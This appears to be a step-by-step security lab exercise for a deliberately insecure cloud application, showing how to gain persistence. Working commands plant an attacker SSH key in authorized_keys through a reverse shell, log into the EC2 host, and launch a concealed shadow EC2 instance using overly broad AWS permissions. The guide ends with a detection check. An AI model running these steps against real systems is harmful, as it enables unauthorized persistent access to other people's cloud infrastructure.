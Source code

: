 # 🔥 Vulnerable Labs: Persistence Pays Off!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to leverage excessive permissions and misconfigurations to gain persistence in a cloud environment.

Mitre ATT&CK defines persistence as techniques to allow adversaries to maintain their access to systems and devices across restarts and other interruptions. 


### 🎯 Your Mission

1. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
2. On your laptop, open a terminal and run the following command to generate a new SSH keypair:
```bash
ssh-keygen -t rsa -f attacker_key
```
3. Run the following command to obtain the attacker_key public key.
```bash
cat attacker_key.pub
```
4. Using the reverse shell terminal, run the following commands What do you see? - A read/write mapped drive that includes the ssh folder containing the authorized_keys file.
```bash
ls /flappy
ls -alh /flappy/mapped_drive
ls -alh /flappy/mapped_drive/.ssh
cat /flappy/mapped_drive/.ssh/authorized_keys
``` 
5. Run the command using the output from step 3 to add your newly generated public key to the authorized key file on the .
```bash
echo "public key from Step 3" >> /flappy/mapped_drive/.ssh/authorized_keys
```
6. Run the command to get the IP address of the WebServer EC2 instance (this should match the Public IP in the AWS console):
```bash
curl ipconfig.io
```
7. SSH to the EC2 instance directly:
```bash
ssh -i attacker_key ubuntu@ip_address
```
At this point we've gained persistence to the underlying EC2 host. But what if the host is shut down or terminated? Let's now spin up a shadow EC2 instance using excessive AWS permissions.

8. Run the following commands to install jq and the AWS CLI:
```bash
apt update && apt install jq curl
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip" && unzip awscliv2.zip && ./aws/install && aws sts get-caller-identity
```

8. Run the following command to launch a new shadow EC2 instance:
```bash
aws ec2 run-instances \
    --instance-type t2.micro \
    --image-id ami-0aa2b7722dc1b5612 \
    --subnet-id $(aws ec2 describe-subnets --query "Subnets[?MapPublicIpOnLaunch].SubnetId | [0]" --output text) \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=NothingToSeeHere}]' \
    --associate-public-ip-address
```


Congratulations, you've completed this challenge. Can you now find the command you executed in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

Note: Don't forget to substitute:
- ip_address in Step 7 for the IP address output from Step 6.

